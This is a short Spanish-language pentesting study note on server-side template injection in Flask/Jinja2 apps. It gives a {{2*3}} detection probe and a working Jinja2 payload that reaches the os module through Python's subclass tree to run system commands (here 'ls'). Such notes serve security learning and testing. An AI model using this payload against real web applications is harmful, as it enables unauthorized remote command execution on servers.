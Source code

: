 ```yaml
---
title: ssti
author: naibu3
type: web
---
```


#web 

# ssti

*Server Side Template Injection* ó *ssti* es una vulnerabilidad de aplicaciones web que emplean plantillas para mostrar contenido dinámico, como podría ser *jinja2* de [[flask 1]].

## flask-python3

Las aplicaciones con *flask/jinja2*, pueden ser vulnerables a *ssti*, para comprobarlo podemos probar con un payload como `{{2*3}}`, si la página renderiza un `6`, sabremos que dicho *payload* se ejecuta como código [[python]], permitiéndonos *ejecución remota de comandos* ([[RCE]]).

A continuación algunos payloads (mirate también [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)):

```python3
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("ls").read()}}{%endif%}{% endfor %}

```
> Este payload trata de acceder al módulo `warning` para poder importar la librería `os` y ejecutar comandos del sistema (en este caso `ls`)